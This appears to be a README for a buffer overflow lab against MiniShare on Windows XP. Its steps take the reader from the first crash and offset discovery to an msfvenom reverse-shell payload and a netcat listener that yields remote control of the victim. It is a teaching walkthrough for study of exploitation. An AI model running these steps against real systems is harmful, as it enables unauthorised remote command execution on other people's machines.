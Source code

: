 # buffer_overflow_winXP

The Guideline for Buffer Overflow Attack 
Kali Linux: attacker (192.168.230.153) | Windows XP: victim (192.168.230.170)
--------------------------------------------------------------------------------------------------
-Step1: (Windows), open Minishare, Immunity Debugger/Attach/Minishare
(if needed Immunity Debugger/Debug/Restart (Yes), /Play)
-Step2: (Kali), python mini-1.py 192.168.230.170
check: EIP 41414141
-Step3: (Kali, generate pattern for checking offset value of ESP) 
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2100
Copy the pattern to mini-2.py
-Step4: Immunity Debugger/Debug/Restart (Yes), /Play
python mini-2.py 192.168.230.170
check: ESP Ch7Ch8Ch9 ...
check: EIP 36684335
-Step5: (Kali, check the offset)
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 36684335
Exact match at offset 1787
Edit mini-3.py
-Step6: Immunity Debugger/Debug/Restart (Yes), /Play
python mini-3.py 192.168.230.170
Check: ESP "CCC ...
Check: EIP 42424242
Add badchars to mini-4.py
-Step7: Immunity Debugger/Debug/Restart (Yes), /Play
python mini-4.py 192.168.230.170
Click ESP, right click/ Follow in Dump, check Hex Dump: 01 02 03 ... 0C 0D 0E ...
Edit mini-5.py, remove the value \x0d
-Step8: Immunity Debugger/Debug/Restart (Yes), /Play
python mini-5.py 192.168.230.170
Click ESP, right click/Follow in Dump, check Hex Dump: don't see 0D
-Step9: Immunity Debugger/Debug/Restart (Yes)
/View/log, click USER32.dll -> click "e" on the tool bar, double click USER32.dll/right click/Search for/Command: JMP ESP, remember the address value 7E429353 that is added value to mini-6.py
-Step10: (Kali, create a shellcode) msfvenom -p windows/shell_reverse_tcp lhost=192.168.37.128 lport=443 -b "\x00\x0d" -f c -e x86/shikata_ga_nai
Add the shellcode to mini-6.py, remove the badchars.
-Step11: (Kali) nc -lvp 443
-Step12: Exit Immunity Debugger. Open Minishare.
python mini-6.py 192.168.230.170
(Kali) At the terminal running nc -lvp 443 dumps the terminal of Windows XP (for example: C:\Documents and Settings\victim\Desktop\MiniShare>). Now, you can run commands for remote control.
                                                                                             
